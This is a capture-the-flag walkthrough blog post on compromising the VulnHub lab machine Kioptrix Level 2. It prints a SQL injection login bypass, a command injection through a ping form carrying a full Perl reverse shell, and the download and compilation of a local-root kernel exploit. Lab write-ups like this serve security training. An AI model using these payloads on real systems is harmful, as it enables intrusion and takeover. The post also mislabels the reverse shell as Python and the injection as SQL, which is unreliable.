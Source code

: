 ```yaml
---
layout: post
title: Kioptrix Level 2 (VulnHub) - Complete Walkthrough and Guide
subtitle: Here is a complete walkthrough and tutorial on how to beat Kioptrix Level 2 (Kioptrix - Level 1.1) of VulnHub to acquire root access.
excerpt: Here is a complete walkthrough and tutorial on how to beat Kioptrix Level 2 (Kioptrix - Level 1.1) of VulnHub to acquire root access.
comments: false
thumbnail-img: https://i.imgur.com/hInZ9y4.jpg
categories:
- WalkThroughs 
tags:
- vulnhub
---
```


Here is a complete walkthrough and tutorial on how to hack and penetrate Kioptrix Level 2 (Kioptrix: Level 1.1) of VulnHub.

![kioptrix_level_2](https://i.imgur.com/hInZ9y4.jpg){: .mx-auto.d-block :}

**Kioptrix Level 2 Description:**

Kioptrix Level 2 (or Kioptrix: Level 1.1) is a part of the Kioptrix vulnerable machine series. The objective is to acquire root access using techniques in vulnerability assessment and exploitation.

**Author:** Kioptrix

**Download:** [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)
### Kioptrix Level 2 Walkthrough
Kioptrix Level 2 was found by conducting an Nmap ping sweep and using the arp command.

~~~
nmap -sP 192.168.202.1-254

arp -a
~~~

![kioptrix_level_2_screenshot1](https://i.imgur.com/PrztbN3.jpg){: .mx-auto.d-block :}

Doing a quick Nmap scan, it was found that Kioptrix Level 2 port 80 was open - so it was accessed using a web browser.

~~~
nmap -n 192.168.202.129
~~~

![kioptrix_level_2_screenshot2](https://i.imgur.com/4azvB0Q.jpg){: .mx-auto.d-block :}

Browsing to **http:// 192.168.202.129** showed that Kioptrix Level 2 was hosting a **Remote System Administration Login** website with a username and password form.

~~~
http://192.168.216.129
~~~

![kioptrix_level_2_screenshot3](https://i.imgur.com/YMZBaTE.jpg){: .mx-auto.d-block :}

The **Remote System Administration Login** webpage was been tested for SQL injection attacks and it was found out that using **1' or '1' = '1** as the username and password will let you bypass the login credentials and access the **Basic Administrative Web Console** which lets you ping a machine on the network.

![kioptrix_level_2_screenshot4](https://i.imgur.com/MVacV2g.jpg){: .mx-auto.d-block :}

The ping form was then tested for SQL injection vulnerabilities which found that a simple **semi-colon (;)** will allow the attacker to inject commands.

A Netcat listener was opened which waits for incoming connections while a reverse shell Python command was then used on the Ping form to obtain a low privilege shell.

~~~
nc -nlvp 443

Command used on the Ping form:

;perl -e 'use Socket;$i="192.168.202.128";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
~~~

![kioptrix_level_2_screenshot5](https://i.imgur.com/AG2hU6c.jpg){: .mx-auto.d-block :}

![kioptrix_level_2_screenshot6](https://i.imgur.com/Ak1jktk.jpg){: .mx-auto.d-block :}

![kioptrix_level_2_screenshot7](https://i.imgur.com/YFyDnFU.jpg){: .mx-auto.d-block :}

The low privilege shell was used to enumerate Kioptrix Level 2 which found that it is vulnerable to **[2.4/2.6 sock_sendpage() local root](https://www.exploit-db.com/exploits/9545/)** exploit which can be found on Exploit Database.

The exploit was then downloaded on Kioptrix Level 2 and was executed which resulted on gaining a root shell.

~~~
wget https://www.exploit-db.com/download/9545 -O /tmp/linux-sendpage.c --no-check-certificate

gcc -Wall -o linux-sendpage linux-sendpage.c

chmod 777 linux-sendpage

./linux-sendpage
~~~

![kioptrix_level_2_screenshot8](https://i.imgur.com/RTfAaR1.jpg){: .mx-auto.d-block :}

![kioptrix_level_2_screenshot9](https://i.imgur.com/08YnJRJ.jpg){: .mx-auto.d-block :}

![kioptrix_level_2_screenshot10](https://i.imgur.com/VRMiKSl.jpg){: .mx-auto.d-block :}

Kioptrix Level 2 has been successfully hacked and exploited!

